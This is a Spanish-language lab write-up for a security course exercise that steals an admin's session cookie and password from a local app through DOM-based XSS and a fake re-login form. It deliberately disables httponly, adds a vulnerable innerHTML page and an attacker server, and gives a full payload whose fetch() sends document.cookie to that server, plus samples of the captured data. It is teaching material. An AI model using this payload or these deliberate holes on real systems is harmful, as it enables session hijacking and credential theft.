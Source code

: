 # Práctica 7.4: Robo de Credenciales mediante XSS y Phishing

## Descripción del ejercicio

Este ejercicio demuestra un ataque completo de **robo de credenciales**.

El objetivo es comprometer las credenciales del usuario **administrador** de la aplicación SVAIA.

## Modificaciones necesarias en la aplicación

### 1. **Configuración de cookies insegura**

**Archivo:** `api/app.py`

**Cambio realizado:**
```python
# CONFIGURACIÓN INSEGURA PARA EL ATAQUE
response.set_cookie(
    'access_token',
    token,
    max_age=timedelta(hours=24),
    httponly=False,      # ← CAMBIADO: Era True, ahora False
    secure=False,        # ← MANTENER: Para desarrollo local
    samesite='Lax'
)
```

**Justificación:** 
- `httponly=False` permite que JavaScript acceda a las cookies

### 2. **Página vulnerable añadida**

**Archivo nuevo:** `web/templates/vulnerable.html`

Página con vulnerabilidad DOM-based XSS que:
- Procesa parámetros URL sin sanitizar
- Usa `innerHTML` directamente
- Incluye formulario de phishing oculto

**Archivo modificado:** `web/app.py`

**Ruta añadida:**
```python
@app.route("/search")
def search_page():
    """
    Página vulnerable para demostrar DOM-based XSS
    """
    return render_template("vulnerable.html")
```

### 3. **Servidor del atacante**

**Archivos nuevos:**
- `atacante/server.py` - Servidor para recibir datos robados
- `atacante/Dockerfile` - Containerización
- `atacante/requirements.txt` - Dependencias

**Puerto:** 5004 (configurado en docker-compose.yaml)

### 4. **Configuración Docker**

**Archivo modificado:** `docker-compose.yaml`

**Servicio añadido:**
```yaml
atacante:
  container_name: atacante
  build:
    context: ./atacante
    dockerfile: Dockerfile
  ports:
    - "5004:5004"
  volumes:
    - ./atacante:/app
  environment:
    TZ: Europe/Madrid
    FLASK_ENV: development
    FLASK_APP: server.py
  restart: always
  command: ["python", "server.py"]
```

## Cómo realizar el ataque

### **Paso 1: Iniciar el contenedor Docker**

```bash
# Verificar que todos los servicios estén funcionando:
# - App principal: http://localhost:5003
# - API: http://localhost:5001  
# - Chat: http://localhost:5002
# - Servidor atacante: http://localhost:5004
```

### **Paso 2: Autenticación como administrador**

1. Acceder a http://localhost:5003/login
2. Credenciales del administrador:
   - **Usuario:** `admin`
   - **Contraseña:** `admin`
3. Verificar que el login es exitoso y se puede acceder al panel

### **Paso 3: Ejecución del ataque**

**URL maliciosa a enviar al administrador:**

```
http://localhost:5003/search?q=<img src=x onerror="
// Fase 1: Robar cookies de sesión
fetch('http://localhost:5004/steal',{
    method:'POST',
    headers:{'Content-Type':'application/json'},
    body:JSON.stringify({
        type:'session_cookies',
        cookies:document.cookie,
        url:location.href,
        userAgent:navigator.userAgent,
        timestamp:new Date().toISOString()
    })
});

// Fase 2: Mostrar formulario de phishing
setTimeout(()=>{
    document.getElementById('search-results').style.display='none';
    document.getElementById('fake-login').style.display='block';
    document.title='Sesión Expirada - SVAIA';
},3000);
">
```

**Versión URL-encoded (para envío real):**

```
http://localhost:5003/search?q=
%3Cimg%20src%3Dx%20onerror%3D%22
fetch%28%27http%3A//localhost%3A5004/steal%27%2C
%7Bmethod%3A%27POST%27%2C
headers%3A%7B%27Content-Type%27%3A
%27application/json%27%7D%2C
body%3AJSON.stringify%28%7B
type%3A%27session_cookies%27%2C
cookies%3Adocument.cookie%2C
url%3Alocation.href%7D%29%7D%29%3B
setTimeout%28%28%29%3D%3E%7B
document.getElementById%28
%27search-results%27%29.style.display
%3D%27none%27%3B
document.getElementById%28
%27fake-login%27%29.style.display
%3D%27block%27%3B
%7D%2C3000%29%3B%22%3E
```

### **Paso 4: Flujo del ataque**

1. **La víctima (admin) hace clic** en el enlace malicioso
2. **XSS se ejecuta inmediatamente:**
   - Se roban las cookies de sesión (JWT token)
   - Se envían al servidor atacante en puerto 5004
3. **Después de 3 segundos:**
   - Desaparece el contenido de búsqueda
   - Aparece formulario de "re-autenticación" 
4. **Ingeniería social:**
   - Mensaje: "Sesión de seguridad expirada"
   - La víctima introduce usuario y contraseña reales
5. **Credenciales capturadas:**
   - Se envían al servidor atacante
   - El atacante simula éxito y redirige

### **Paso 5: Monitoreo del ataque**

**Ver datos robados en tiempo real:**
```bash
# Ver todos los datos capturados
http://localhost:5004/stolen

# Ver solo credenciales
http://localhost:5004/stolen/credentials

# Ver solo sesiones
http://localhost:5004/stolen/sessions

# Panel web del atacante
http://localhost:5004
```

##  Resultado del ataque

### **Datos comprometidos:**

#### **1. Sesión activa (cookies JWT):**
```json
{
  "type": "session_cookies",
  "cookies": "access_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9...",
  "url": "http://localhost:5003/search?q=...",
  "userAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)...",
  "timestamp": "2024-01-15T10:30:45.123Z",
  "ip": "172.18.0.1"
}
```

#### **2. Credenciales en texto plano:**
```json
{
  "type": "credentials", 
  "username": "admin",
  "password": "admin",
  "timestamp": "2024-01-15T10:31:20.456Z",
  "origin": "http://localhost:5003",
  "page": "phishing_form",
  "ip": "172.18.0.1"
}
```